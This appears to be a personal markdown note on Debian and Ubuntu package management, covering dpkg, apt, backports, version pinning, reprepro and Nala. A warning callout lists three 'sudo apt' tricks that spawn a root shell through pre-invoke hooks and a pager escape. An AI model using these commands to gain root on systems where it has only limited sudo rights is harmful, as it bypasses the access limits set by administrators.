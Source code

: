 ```yaml
---
tags:
  - linux
  - linux/Debian
  - linux/Ubuntu
visibility: public
title: Debian
---
```

# Debian

## Distros

|           | Codename   | Release    | End-of-life |
| --------- | ---------- | ---------- | ----------- |
| Debian 12 | [bookworm] | 2023-06-10 |             |
| Debian 11 | [bullseye] | 2021-08-14 |             |

## Repositories and Packages

<https://wiki.debian.org/DebianRepository/UseThirdParty>

[Package debfoster](https://packages.debian.org/stretch/debfoster) ^272991
> wrapper program for apt and dpkg. When first run, it will ask you which of the installed packages you want to keep installed.
> After that, it maintains a list of packages that you want to have installed on your system. It uses this list to detect packages that have been installed only because other packages depended on them. If one of these dependencies changes, debfoster will take notice, and ask if you want to remove the old package.
> This helps you to maintain a clean Debian install, without old (mainly library) packages lying around that aren't used any more.

- Ubuntu 22 changed the required compression for packages. In case of an improperly archived package it might have to be extracted and re-packaged or the proper format requested from the package maintainers.

## Package Sources

Update URIs to e.g. change mirror

- GUI: software centre > Settings > Software Sources

### dpkg

```bash
## extract package
dpkg -x [-X] <package> <destination>
## compare package versions
dpkg --compare-versions $version1 ne $version2
```

### apt

Tags: #linux/apt

```bash
# Add repository: add file in `/etc/apt/sources.list.d/` with
# deb [arch=amd64 signed-by=/usr/share/keyrings/<keyring>] <url> <repository-name> main

# Install specific version
sudo apt install package_name=package_version
# empty cache (downloaded packages) [Foss](https://itsfoss.com/clear-apt-cache/)
apt-get clean
```

Newer packages: [Debian backports](https://wiki.debian.org/Backports?action=show&redirect=DebianBackports)

```bash
apt edit-sources
deb http://deb.debian.org/debian bookworm-backports main contrib non-free non-free-firmware
apt update
```

> [!warning]- `sudo apt` vulnerability/exploit to get a root shell
> #tech/vulnerability #tech/exploit [permission escalation with `sudo apt`](https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/) ^9f90c9
>
> ```bash
> # Method 1: apt-get update pre-invoke shell
> sudo apt-get update -o APT::Update::Pre-Invoke::= /bin/bash
> # Method 2: start shell from interactive apt-get changelog
> sudo apt-get changelog apt << '#!/bin/sh'
> # Method 3: apt install pre-invoke shell (from file)
> TF=$(mktemp)
>  echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}' > $TF
>  sudo apt-get install -c $TF sl
> ```

- [apt-fast](https://github.com/ilikenwf/apt-fast) (unofficial package): shellscript wrapper for apt-get and aptitude that can drastically improve apt download times by downloading packages in parallel, with multiple connections per package


#### Packages

Pin/hold a package version, for example Kernel version (see [Work notes LWP > Puppet > module Kernel Maintenance](obsidian://vault/lwp-docs/lwp/Puppet/modules/kernel_maintenance) and [code](file://git/puppetserver/our-modules/kernel_maintenance/manifests/init.pp))

```bash
apt-mark showhold | grep -q -e '^linux-headers-${pin}' -e '^linux-image-${pin}' -e '^linux-modules-${pin}' -e '^linux-modules-extra-${pin}'
apt-mark hold linux-headers-${pin}-generic linux-image-${pin}-generic linux-modules-${pin}-generic linux-modules-extra-${pin}-generic
```


#### reprepro

`reprepro`: produce, manage and sync a local repository of Debian packages

See also [RUG: Jurjen's notes on Debian packages].

```bash
## add package to repository
sudo reprepro \
    --confdir /etc/wraprepro/vhosts.d/<domain>/<mirror>/<os>/<release>/conf/ \
    includedeb <repository-name> \
    <package>
## test what packages would be pulled to target channel
sudo reprepro \
     --confdir /etc/wraprepro/vhosts.d/<domain>/<mirror>/<os>/<release>/conf/ \
     checkpull <target-repository-name>
## actually pull changes to target channel: replace checkpull by pull
```


#### Nala

[Github](https://github.com/volitank/nala) | [Wiki](https://gitlab.com/volian/nala/-/wikis/Installation)
> Nala is a front-end for `libapt-pkg`. Specifically we interface using the `python-apt` api.
![|400](https://github.com/volitank/nala/raw/main/imgs/nala-install-2.png)
<https://trendoceans.com/nala-package-manager/>


### References

- [Debian Live Manual][deb-live]
- [Build Debian live image, blog post][blog-live-build]

[deb-live]: <https://live-team.pages.debian.net/live-manual/html/live-manual/toc.en.html>
[blog-live-build]: <https://dquinton.github.io/debian-install/netinstall/live-build.html>
[bullseye]: <https://www.debian.org/releases/bullseye/>
[bookworm]: <https://www.debian.org/releases/bookworm/>
